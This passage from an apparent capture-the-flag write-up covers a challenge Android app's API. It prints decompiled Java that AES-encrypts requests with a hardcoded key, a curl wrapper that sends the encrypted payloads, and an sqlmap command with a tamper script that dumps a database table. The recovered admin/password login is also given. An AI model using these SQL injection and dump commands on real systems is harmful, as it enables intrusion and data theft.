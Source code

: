 ```java
    private static String buildPayload(JSONObject paramJSONObject) throws Exception {
        Key key = new SecretKeySpec(
                new byte[] { 56, 79, 46, 106, 26, 5, -27, 34, 59, -128, -23, 96, -96, -90, 80, 116 }, "AES");
        byte[] arrayOfByte = new byte[16];
        new SecureRandom().nextBytes(arrayOfByte);
        IvParameterSpec localIvParameterSpec = new IvParameterSpec(arrayOfByte);
        Cipher localCipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        localCipher.init(1, key, localIvParameterSpec);
        byte[] cipherBytes = localCipher.doFinal(paramJSONObject.toString().getBytes());
        byte[] localObject = new byte[cipherBytes.length + 16];
        System.arraycopy(arrayOfByte, 0, localObject, 0, 16);
        System.arraycopy(cipherBytes, 0, localObject, 16, cipherBytes.length);
        Base64.Encoder encoder = Base64.getEncoder();
        return encoder.encodeToString((byte[]) localObject);
    }

    private static String parseNetworkResponse(String data) throws Exception {
        Base64.Decoder decoder = Base64.getDecoder();
        byte[] localObject1 = decoder.decode(data);
        Object localObject2 = new byte[16];
        System.arraycopy(localObject1, 0, localObject2, 0, 16);
        byte[] paramNetworkResponse = new byte[localObject1.length - 16];
        System.arraycopy(localObject1, 16, paramNetworkResponse, 0, localObject1.length - 16);
        Key key = new SecretKeySpec(
                new byte[] { 56, 79, 46, 106, 26, 5, -27, 34, 59, -128, -23, 96, -96, -90, 80, 116 }, "AES");
        AlgorithmParameterSpec algo = new IvParameterSpec((byte[]) localObject2);
        Cipher localCipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        localCipher.init(2, key, algo);
        return new String(localCipher.doFinal(paramNetworkResponse));
    }
}
```

Once compiled, I used the following bash script to play with the API a bit and discover that it seemed vulnerable to SQL injection.

```bash
payload=`java -cp org.json.jar:. RequestBuilder build $1 $2 $3 $4 $5` # Parameters are username, password, cmd, commandName (optional), commandArgument (optional)
response=`curl -s -X POST -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" --data-urlencode "d=$payload" http://35.243.186.41/`
java -cp org.json.jar:. RequestBuilder parse "$response"
```

After manual testing and then some poking with [`sqlmap`](http://sqlmap.org/) I discovered that the backend was running on a database named `flitebackend` and that the credentials to log in the Android app were admin/password. Also in this database is the `devices` table which was obtained with the following `sqlmap` command.

```bash
sqlmap -u http://35.243.186.41/ --dbms=mysql --data "d=tamper" --tamper ~/full/path/to/tamper.py --batch --technique T --level=5 --risk=3 --dump -D flitebackend -T devices -C ip -p d
```
